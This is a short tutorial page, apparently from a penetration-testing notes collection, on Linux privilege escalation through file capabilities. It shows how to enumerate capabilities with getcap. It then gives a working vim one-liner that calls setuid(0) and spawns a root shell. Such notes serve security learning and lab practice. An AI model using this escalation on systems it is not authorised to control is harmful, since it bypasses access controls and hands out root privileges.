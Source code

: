 # Capabilities

System administrators can use "Capabilities" to manage privileges at a granular level for processes or binaries. For instance, if a SOC analyst needs to initiate socket connections, which a regular user cannot do, the administrator can modify the binary's capabilities instead of granting higher privileges. This allows the binary to perform its task without requiring elevated user rights.

We can use the `getcap` tool to list enabled capabilities, but it's good practice to use this command to redirect the error messages to /dev/null:

```bash
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that both `vim` and `view` have the Capabilities set, but as we can see from the image below neither has the SUID bit set.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can lookup on [GTFObins](https://gtfobins.github.io/) for a binary that helps us to leverage privilege escalation.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the command with `py`, or `py3` accordingly:

{% code overflow="wrap" %}
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we successfully leverage our permissions!
